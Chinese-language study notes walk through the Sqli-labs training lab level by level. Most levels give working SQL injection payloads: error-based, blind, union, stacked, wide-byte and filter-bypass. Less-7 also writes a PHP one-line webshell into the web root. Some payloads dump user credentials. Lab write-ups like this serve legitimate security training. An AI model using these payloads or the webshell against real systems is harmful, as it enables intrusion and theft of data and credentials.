





# Sqli-labs

### Less-1：GET - Error based - Single quotes - string

**注入类型**

报错注入

**闭合方式**

id='\$id'

#### 判断中止类型

***

```sql
//回显正常
http://192.168.65.128/sqli-labs/Less-1/?id= 1' and 1=1 --+
//回显异常
http://192.168.65.128/sqli-labs/Less-1/?id= 1' and 1=2 --+

```


#### 使用报错注入

***

```sql
//爆数据库
and updatexml(1,concat(0x7e,database(),0x7e),1) --+
```


```sql
//爆表名
and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1) --+ 
```


```sql
//爆字段名
and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) --+ 
```


```sql
//爆数据
and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users  ),0x7e),1) --+
```


### Less-2：GET - Error based - lntiger based

**注入类型**

报错注入

**闭合方式**

id=\$id

```sql
//爆数据库
and updatexml(1,concat(0x7e,database(),0x7e),1) 
```


### Less-3：GET -Error based - Single quotes with twist - string

**注入类型**

报错注入

**闭合方式**

id=('\$id')

```sql
//爆数据库
and updatexml(1,concat(0x7e,database(),0x7e),1) --+
```


### Less-4：GET - Error based - Double Quotes - string

**注入类型**

报错注入

**闭合方式**

id=("\$id")

```sql
and extractvalue(1,concat(0x7e,database())) --+
```


### Less-5：GET - Double Query - single Quotes - string

**注入类型**

双查询注入→[floor() 报错注入](../学习/floor()%20报错注入/floor()%20报错注入.md 报错注入/floor() 报错注入.md> "floor() 报错注入")

**闭合方式**

id='\$id'

```sql
and (select 1 from (select count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2)))a) --+
```


### Less-6：GET - Double lnjection - Double Quotes - string

**注入类型**

双查询注入

**闭合方式**

id="\$id"

```sql
and (select 1 from (select count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2)))a) --+
```


### Less-7：GET - Dump into outfile - string

**注入类型**

文件操作→[数据库文件操作](../../学习/数据库文件操作/数据库文件操作.md "数据库文件操作")

**闭合方式**

id=(('\$id'))

```sql
//通过前面关卡爆出文件操作权限和文件操作相对路径
//发现操作目录，但是禁止操作
and updatexml(1,concat(0x7e,@@datadir,0x7e,@@secure_file_priv),1) --+

```


先到服务器修改权限后，再查看权限，此时无限制


```sql
//将结果显示到文本，虽然显示错误，但是生成文件成功
union select 1,database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" --+
```


```sql
http://192.168.65.128/sqli-labs/Less-1/?id=-1'
union select 1,(load_file("C:\\phpStudy\\MySQL\\data\\dump.txt")),3
```


```sql
//写入一句话木马，使用蚁剑连接
http://192.168.65.128/sqli-labs/Less-7/?id=-1')) 
union select 1,"<?php @eval($_POST['cmd']); ?>",3 into outfile "C:\\phpStudy\\www\\sqli-labs\\Less-7\\dump.php" --+  
```


### Less-8：GET - Blind - Boolian Based - single Quotes

**注入类型**

布尔盲注

**闭合方式**

id='\$id'

```sql
//判断数据库长度
http://192.168.65.128/sqli-labs/Less-8/?id=1'
and length(database())>=8 --+
http://192.168.65.128/sqli-labs/Less-8/?id=1'
and length(database())>=9 --+ 
```


```sql
//爆数据库
 http://192.168.65.128/sqli-labs/Less-8/?id=1' 
 and substr(database(),1,1)='s' --+
```


使用bp快速爆破


```sql
//爆表
 http://192.168.65.128/sqli-labs/Less-8/?id=1' 
 and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e' --+
```


```sql
//爆字段
http://192.168.65.128/sqli-labs/Less-8/?id=1' 
and substr((select column_name from information_schema.columns where table_schema='security' and table_name='users'  limit 0,1),1,1)='i' --+
```


```sql
//爆数据
http://192.168.65.128/sqli-labs/Less-8/?id=1' 
and substr((select username from users limit 0,1),1,1)='i' --+ 
```


### Less-9：GET - Blind - Time based. - Single Quotes

**注入类型**

时间盲注

**闭合方式**

id='\$id'

```sql
http://192.168.65.128/sqli-labs/Less-9/?id=1' 
and if(substr(database(),1,1)='s',sleep(5),1) --+
```


### Less-10：GET - Blind - Time based - double quotes

**注入类型**

时间盲注

**闭合方式**

id="\$id"

```sql
http://192.168.65.128/sqli-labs/less-10/?id=1" 
and if(substr(database(),1,1)='s',sleep(5),1) --+
```


### Less-11：POST - Error Based - Single quotes- string

**注入类型**

报错注入

**闭合方式**

id='\$id'

```sql
admin' and updatexml(1,concat(0x7e,database()),1) #
```


### Less-12：POST -Error Based - Double quotes- string - with twist

**注入类型**

报错注入

**闭合方式**

id=("\$id")

```sql
admin") and updatexml(1,concat(0x7e,database()),1) #
```


### Less-13：POST - Double lnjection - Single quotes- String - with twist

**注入类型**

双查询注入

**闭合方式**

id=('\$id')

```sql
admin') 
union select 1,count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2))#
```


### Less-14：POST -Double Injection- Double quotes- String

**注入类型**

双查询注入

**闭合方式**

id="\$id"


```sql
admin" 
and (select 1 from (select count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2)))a ) #
```


### Less-15：POST - Blind-Boolian/time Based - Single quotes

**注入类型**

布尔盲注

**闭合方式**

id='\$id'

```sql
admin'
and substr(database(),1,1)='s' #
```


### Less-16：POST - Blind-Boolian/Time Based - Double quotes

**注入类型**

布尔盲注

**闭合方式**

id=("\$id")

```sql
admin") 
and substr(database(),1,1)='s' #
```


### Less-17：POST - Update Query- Error Based - string

**注入类型**

报错注入

**闭合方式**

id='\$id'

> 💡这一题对表`users`  和`uname`传参进行过滤，因此一定要知道账户名

-   这题的场景是重设密码界面，重设密码时用到了Update语句，因此通过密码输入处注入

```sql
admin'
and extractvalue(1,concat(0x7e,database())) #
```


```sql
//通过表users进行爆数据时被拒绝
admin' 
and extractvalue(1,concat(0x7e,(select username from users limit 0,1))) # 
```


```sql
//将 users 表用 select * from users 语句代替
admin' and extractvalue(1,concat(0x7e,(select username from (select * from users)a limit 0,1))) #
```


### Less-18：POST - Header Injection - Uagent field - Error based

**注入类型**

头部注入

**闭合方式**

id=('\$id')

> 💡这一题对uname和passwd都进行过滤，因此必须要知道一个账号密码


**PHP 里用来获取客户端 IP 的变量**

-   `$_SERVER['HTTP_CLIENT_IP']` 这个很少使用，不一定服务器都实现了。客户端可以伪造。
-   `$_SERVER['HTTP_X_FORWARDED_FOR']`，客户端可以伪造。
-   `$_SERVER['REMOTE_ADDR']`，客户端不能伪造。（本题就是使用这种方法）

```sql
//这里不能对IP进行伪造，只能伪造User-Agent
1' and updatexml(1,concat(0x7e,database()),1), 1, 1) # 
```


### Less-19：POST -Header lnjection - Referer field - Error based

**注入类型**

头部注入

**闭合方式**

id=('\$id')

```sql
 //与18题类似，这题利用 referer 字段
 'and updatexml(1,concat(0x7e,database()),1))#
```


### Less-20：POST - Cookie injections - Uagent field - error based

**注入类型**

Cookie注入

**闭合方式**

id='\$id'

```sql
//正常登陆后，自动生成一个cookie
```


```sql
//修改cookie
admin' and  updatexml(1,concat(0x7e,database()),1)#
```


### Less-21：POST-cookie injection- base64 encoded-single quotes and parenthesis

**注入类型**

Cookie注入

**闭合方式**

id=('\$id')

```sql
//正常登陆后，自动生成cookie，但是发现值是加密过
```


```sql
//查看源码发现是使用 base64 加密
```


```sql
//将payload进行base64加密再注入到cookie
admin') and  updatexml(1,concat(0x7e,database()),1)#
//编码后
YWRtaW4nKSBhbmQgIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLGRhdGFiYXNlKCkpLDEpIw==
```


### Less-22：POST-Cookie lnjection - base64 encoded - double quotes

**注入类型**

cookie注入

**闭合方式**

id="\$id"

```sql
admin" and  updatexml(1,concat(0x7e,database()),1)#
//转换后
YWRtaW4iIGFuZCAgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSksMSkj
```


### Less-23：GET - Error based - strip comments

**注入类型**

报错注入

**闭合方式**

id='\$id'

```sql
//分析源码发现这题对注释进行过滤
```


```sql
//因此这题采用闭合  '1'='1  与sql语句后面的  '  闭合的方式绕过
 http://192.168.65.128/sqli-labs/Less-23/?id=1' 
 and '1'='1 
```


```sql
http://192.168.65.128/sqli-labs/Less-23/?id=1' 
and updatexml(1,concat(0x7e,database()),1) and '1'='1
```


### Less-24：POST- Second oder Injections Real treat - Stored lnjections

**注入类型**

二次注入

**闭合方式**

id='\$id'

|查看源码中修改密码的SQL语句


```sql
//注册一个账户，名为admin'#
```


```sql
//修改密码为123456
```


```sql
//使用密码123456 登录admin成功
```


### Less-25：GET - Error based - All your OR & AND belong to us -string single quote

**注入类型**

报错注入

**闭合方式**

id='\$id'

```sql
//通过双写and绕过过滤
http://192.168.65.128/sqli-labs/Less-25/?id=1' 
anandd 1=1 --+ 
```


```sql
http://192.168.65.128/sqli-labs/Less-25/?id=1' 
anandd updatexml(1,concat(0x7e,database()),1) --+
```


```sql
// inforrmation_schema 、 and 、 or 都需要双写
http://192.168.65.128/sqli-labs/Less-25/?id=1' 
anandd updatexml(1,concat(0x7e,(select group_concat(column_name) from infoorrmation_schema.columns where table_schema='security' anandd table_name='users')),1) --+
```


```sql
// password 中的 or 也要双写
http://192.168.65.128/sqli-labs/Less-25/
?id=1' anandd updatexml(1,concat(0x7e,(select concat(username,0x7e,passwoorrd) from users limit 0,1 )),1) --+
```


### Less-25a：GET -Blind Based - All your OR & AND belong to us- Intiger based

**注入类型**

布尔盲注

**闭合方式**

id=\$id

>  25a和25的区别在于25a无回显，所以要用盲注

```sql
http://192.168.65.128/sqli-labs/Less-25a/?id=1 
anandd substr(database(),1,1)='s'
```


### Less-26：GET - Error based - All your SPACES and COMMENTS belong to us

**注入类型**

报错注入

**闭合方式**

id='\$id'

> 查看源码发现比起Less-25，过滤了空格和注释
> 这里绕过空格过滤的方法可以使用 **`()`** 代替空格，注释可以使用\*\*`and '1'='1`\*\* 去闭合sql语句后面的 **`'`**


```sql
http://192.168.65.128/sqli-labs/Less-26/?id=1' 
anandd(updatexml(1,concat(0x7e,(select(database()))),1)) anandd '1'='1
```


### Less-26a：GET -Blind Based - All your SPACES and COMMENTS belong to us -string-singlequotes-Parenthesis

**注入类型**

布尔盲注

**闭合方式**

id=('\$id')

```sql
//与Less-26对比，Less-26a删除了报错信息
http://192.168.65.128/sqli-labs/Less-26a/?id=1') 
aandnd (substr(database(),1,1)='s') || ('1'='1
```


### Less-27：GET - Error Based-All your UNION & SELECT Belong to us - String - single quote

**注入类型**

报错注入

**闭合方式**

id='\$id'

> 查看源码发现过滤了\*\*`union`**和**`select`\*\* ，并且 **`/m`** 表示一直检测，所以这里\*\*`select`\*\* 不能用双写绕过
> 这里可以采用大小写绕过，比如\*\*​`selecT`\*\*


```sql
http://192.168.65.128/sqli-labs/Less-27/?id=1'
and(updatexml(1,concat(0x7e,(selecT(group_concat(password))from(users))),1))||'1'='1
```


### Less-27a：GET - Blind Based-All your UNION & SELECT Belong to us - Double Quotes

**注入类型**

布尔盲注

**闭合方式**

id="\$id"

```sql
//与Less-27对比，Less-27a删除了报错信息
http://192.168.65.128/sqli-labs/Less-27a/?id=1"
and(substr(database(),1,1)='s')and"1"="1
```


### Less-28：GET-Error Based- All your UNION & SELECT Belong to us - String -Single quote with parenthesis

**注入类型**

联合注入

**闭合方式**

id=('\$id')

> 💡题干说是报错注入，但查看源码发现删除了报错信息，因此这题不能使用报错注入



> 查看源码发现过滤了\*\*`union select`**组合，但是发现只过滤一次，因此把**`union select`\*\* 双写即可过滤
> **`%0A`** 用于代替空格


```sql
http://192.168.65.128/sqli-labs/Less-28/?id=100')
uniounion%0Aselectn%0Aselect%0A1,database(),3||('1')=('1
```


### Less-28a：GET -Blind Based-All your UNION & SELECT Belong to us -single quote-parenthesis

**注入类型**

布尔盲注

**闭合方式**

id=('\$id')

```sql
http://192.168.65.128/sqli-labs/Less-28a/?id=1')
and(substr(database(),1,1)='s')and('1')=('1
```


### Less-29：GET-Error based- IMPIDENCE MISMATCH-Having a WAF in front of web application

**注入类型**

报错注入

**闭合方式**

id=

```sql
```

> 🚫未安装tomcat环境

### Less-30：GET -BLIND - IMPIDENCE MISMATCH-Having a WAF in front of web application

**注入类型**

注入

**闭合方式**

id=

```sql
```

> 🚫未安装tomcat环境

### Less-31：GET -BLIND - IMPIDENCE MISMATCH-Having a WAF in front of web application

**注入类型**

注入

**闭合方式**

id=

```sql
```

> 🚫未安装tomcat环境

### Less-32：GET - Bypass custom filter adding slashes to dangerous chars

**注入类型**

注入

**闭合方式**

id=

```sql
```

> 🚫未安装tomcat环境

### Less-33：GET - Bypass Addslashes()

**注入类型**

宽字节注入

**闭合方式**

id='\$id'

> 查看源码发现对特殊符号进行转义
> **`addslashes()`** 方法将字符串中的 **`'`**、*`"`*、**`\`** 等进行转义成 **`\'`**、**`\"`**、**`\\`**


```sql
http://192.168.65.128/sqli-labs/Less-33/?id=1'
```


```sql
//因为对 ' 进行转义后，sql语句中的 ' 也会被转义，因此采用一句话方法直接爆破
http://192.168.65.128/sqli-labs/Less-33/?id=-1%df' 
union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database()and table_name=(select table_name from information_schema.tables where table_schema=database() limit 1,1 )),3--+
```


### Less-34：POST - Bypass Addslashes()

**注入类型**

宽字节注入

**闭合方式**

id=

```sql
//POST型中对于参数的特殊符号是会先编码再传输的所以不能直接使用 %df 
uname=%df' or 1=1 #
```


> 通过抓包发现会将\*\*`%df`**的**`%`\*\* 编码成\*\*​`%25`\*\* ，因此\*\*​`%df`\*\* 变成 **`%25df`** ，所以出错


> //因此我们之间在Bp里面修改\*\*`uname`\*\*就可以避免编码问题


```sql
uname=%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database()and table_name=(select table_name from information_schema.tables where table_schema=database() limit 1,1 ))#
```


### Less-35：GET - Bypass Add slashes (we dont need them) lnteger based

**注入类型**

联合注入

**闭合方式**

id=\$id

```sql
//因为闭合是整型的就用不上宽字节，但是sql语句里面的 ' 还是会被转义，所以用一句话爆字段
http://192.168.65.128/sqli-labs/Less-35/?id=-1 
union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3
```


### Less-36：GET - Bypass MysQL\_real\_escape\_string

**注入类型**

宽字节注入

**闭合方式**

id='\$id'

> \*\*`mysql_real_escape_string`**与**`addslashes`**的区别在于作用角色不同，并且**`mysql_real_escape_string`\*\*是MySql中的函数

```sql
http://192.168.65.128/sqli-labs/Less-36/?id=-1%df' 
union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 %23
```


### Less-37：POST-Bypass MySQL\_real\_escape\_string

**注入类型**

宽字节注入

**闭合方式**

id='\$id'

```sql
uname=1%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database()and table_name=(select table_name from information_schema.tables where table_schema=database() limit 1,1 ))#
```


### Less-38：Future Editions

**注入类型**

堆叠注入

**闭合方式**

id='\$id'

> 源码中使用了\*\*`mysqli_multi_query()`\*\* 执行sql语句，所以可以同时执行多条sql语句（用\*\*​`;`**分开），但是只有第一句sql语句会有回显，所以这里使用写入文件，也可以使用**`update`\*\*等函数

```sql
http://192.168.65.128/sqli-labs/Less-38/?id=1';
select 1,database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" --+
```


### Less-39：GET - stacked Query lnjection - lntiger based

**注入类型**

堆叠注入

**闭合方式**

id=\$id

```sql
http://192.168.65.128/sqli-labs/Less-39/?id=1;
select 'Less-39',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" --+
```




### Less-40：GET - BLIND based - string - Stacked

**注入类型**

堆叠注入

**闭合方式**

id=('\$id')

```sql
http://192.168.65.128/sqli-labs/Less-40/?id=1');
select 'Less-40',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" --+
```




### Less-41：GET -BLIND based - lntiger - stacked

**注入类型**

堆叠注入

**闭合方式**

id=%id

```sql
http://192.168.65.128/sqli-labs/Less-41/?id=1;
select 'Less-41',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" --+
```


### Less-42：POST - Error based - string - stacked

**注入类型**

堆叠注入

**闭合方式**

id='\$id'

```sql
//密码框处存在堆叠注入
password=admin';select 'Less-42',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" #
```


### Less-43：POST - Error based - string - Stacked with twist

**注入类型**

堆叠注入

**闭合方式**

id=('\$id')

```sql
password=admin');select 'Less-43',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" #
```


### Less-44：POST - Stacked Query Blind

**注入类型**

堆叠注入

**闭合方式**

id='id'

```sql
password=admin';select 'Less-44',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" #
```


### Less-45：POST - Stacked Query Blind based twist

**注入类型**

堆叠注入

**闭合方式**

id=('\$id')

```sql
password=admin');select 'Less-45',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" #
```




### Less-46：GET -Error based - Numeric - ORDER BY CLAUSE

**注入类型**

报错注入

**闭合方式**

id=\$id

```sql
http://192.168.65.128/sqli-labs/Less-46/?sort=1 
and updatexml(1,concat(0x7e,database()),1)
```


### Less-47：GET - Error based - string - ORDER BY CLAUSE

**注入类型**

报错注入

**闭合方式**

id='\$id'

```sql
http://192.168.65.128/sqli-labs/Less-47/?sort=1' 
and updatexml(1,concat(0x7e,database()),1) --+
```


### Less-48：GET - Error based - Blind-Numeric- ORDER BY CLAUSE

**注入类型**

布尔盲注

**闭合方式**

id=\$id

```sql
//利用rand(true)与rand(false)结果不同，实现盲注两种状态
http://192.168.65.128/sqli-labs/Less-48/?sort=
rand(left(database(),1)='s')
```


### Less-49：GET - Error based - string- Blind - ORDER BY CLAUSE

**注入类型**

时间盲注

**闭合方式**

id='\$id'

```sql
http://192.168.65.128/sqli-labs/Less-49/?sort=1' 
and if(substr(database(),1,1)='a',sleep(1),1) --+
```


### Less-50：GET -Error based - ORDER BY CLAUSE -numeric- stacked injection

**注入类型**

堆叠注入

**闭合方式**

id=\$id

```sql
http://192.168.65.128/sqli-labs/Less-50/?sort=2;
select 'Less-50',database() into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt";
```




### Less-51：GET -Error based - ORDER BY CLAUSE-String- stacked lnjection

**注入类型**

堆叠注入

**闭合方式**

id='\$id'

```sql
http://192.168.65.128/sqli-labs/Less-51/?sort=2';
select 'Less-51',database() into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt"; --+
```


### Less-52：GET -Blind based - ORDER BY CLAuSE-numeric- stacked injection

**注入类型**

堆叠注入

**闭合方式**

id=\$id

```sql
http://192.168.80.128/sqli-labs/Less-52/?sort=1;
select 'Less-52',database() into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt";
```


### Less-53：GET -Blind based - ORDER BY CLAUSE -String- stacked injection

**注入类型**

堆叠注入

**闭合方式**

id='\$id'

```sql
http://192.168.80.132/sqli-labs/Less-53/?sort=2';
select 'Less-53',database() into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt"; --+
```


### Less-54：GET - challenge - Union- 10 queries allowed - variation l

**注入类型**

联合注入

**闭合方式**

id='\$id'

> challenge 题目未注入加入了次数限制，在尝试一定次数（这题为10次）后，数据库中的表名和字段都会发生改变

```sql
http://192.168.80.132/sqli-labs/Less-54/?id=-1'  
union select 1,(select secret_5ANF from 23i0nc1py0 limit 0,1),3--+
```


### Less-55：GET - challenge - Union- l4 queries allowed - Variation 2

**注入类型**

联合注入

**闭合方式**

id=(\$id)


```sql
http://192.168.80.132/sqli-labs/Less-55/?id=-1)  
union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 --+
```


```bash
http://192.168.80.132/sqli-labs/Less-55/?id=-1)  
union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='hldw3868xt'),3 --+
```


```bash
http://192.168.80.132/sqli-labs/Less-55/?id=-1)  
union select 1,(select group_concat(secret_3ZNN) from hldw3868xt ),3 --+
```


### Less-56：GET - challenge - Union- l 4 queries allowed - variation 3

**注入类型**

联合注入

**闭合方式**

id=('\$id')

```sql
http://192.168.80.132/sqli-labs/Less-56/?id=-1') 
union select 1,(select group_concat(secret_97J5) from 1x10v2xxfh),3 --+
```


